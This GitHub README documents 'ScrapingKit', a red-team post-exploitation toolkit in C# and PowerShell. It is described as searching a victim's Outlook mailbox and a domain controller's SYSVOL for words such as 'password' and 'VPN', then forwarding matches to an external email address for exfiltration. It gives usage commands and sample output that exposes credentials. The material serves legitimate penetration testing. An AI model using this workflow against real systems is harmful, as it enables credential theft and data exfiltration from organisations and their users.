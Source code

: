 # ScrapingKit
## v1.01 Release
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/4655e287-cc3c-480c-97a7-e280c9fcb149)


Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently with more to come in the coming months and more customisation options.

- [SharpScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/SharpScrapeKit)
- [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information over on [Lares Labs](https://labs.lares.com/) (Blog post goes live Tuesday 30th May 08:00 UTC).

https://labs.lares.com/introducing-the-scraping-kit/

#### Required NuGet Pakages

1. Right-click on project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click on Browse search for the below pakages and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is a powershell implementation of ScrapeKit, it consists of two files; DCScraper & OutlookScrape. Each has a specific function for scraping either a DC or Outlook. The outlook scraper will connect to the user's outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing. Whereas the DC one will connect to sysvol and look for specific keywords or a default list.

- DCScrape.ps1
- OutlookScrape.ps1

### How to Use

See [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

#### OutlookScrape
Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

### Example execution:
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/870ff5d6-2380-4d4f-956b-71f16267feb2)
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/1357b27c-bad5-453b-b4cf-ed244d39d21d)


